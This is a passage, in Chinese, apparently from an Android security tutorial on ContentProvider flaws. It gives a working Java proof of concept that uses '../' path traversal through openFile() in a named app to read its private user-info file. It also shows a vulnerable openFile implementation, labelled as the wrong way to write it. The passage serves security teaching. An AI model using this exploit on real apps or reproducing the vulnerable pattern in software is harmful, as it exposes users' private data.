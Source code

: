 再利用案例1 类似的手法，再利用SQL注入的方式能够访问到数据库中其他的表

### 案例3：openFile文件遍历

该Provider实现了openFile()接口，通过此接口可以访问内部存储app_webview 目录下的数据，由于后台未能对目标文件地址进行有效判断，可以通过"../"实现目录跨越，实现对任意私有数据的访问

```
public void GJContentProviderFileOperations(){ 

    try{ 

        InputStream in = getContentResolver().openInputStream(Uri.parse("content://com.ganji.html5.localfile.1/webview/../../shared_prefs/userinfo.xml")); 

        ByteArrayOutputStream out = new ByteArrayOutputStream(); 

        byte[] buffer = new byte[1024]; 

        int n = in.read(buffer); 

        while(n>0){ 

            out.write(buffer, 0, n); 

            n = in.read(buffer); 

            Toast.makeText(getBaseContext(), out.toString(), Toast.LENGTH_LONG).show(); 

        } 

    }catch(Exception e){ 

        debugInfo(e.getMessage()); 

    } 

} 
```

Override openFile method
错误写法1：

```
private static String IMAGE_DIRECTORY = localFile.getAbsolutePath();
public ParcelFileDescriptor openFile(Uri paramUri, String paramString)
    throws FileNotFoundException {
  File file = new File(IMAGE_DIRECTORY, paramUri.getLastPathSegment());
  return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
} 
```

错误写法2：URI.parse()
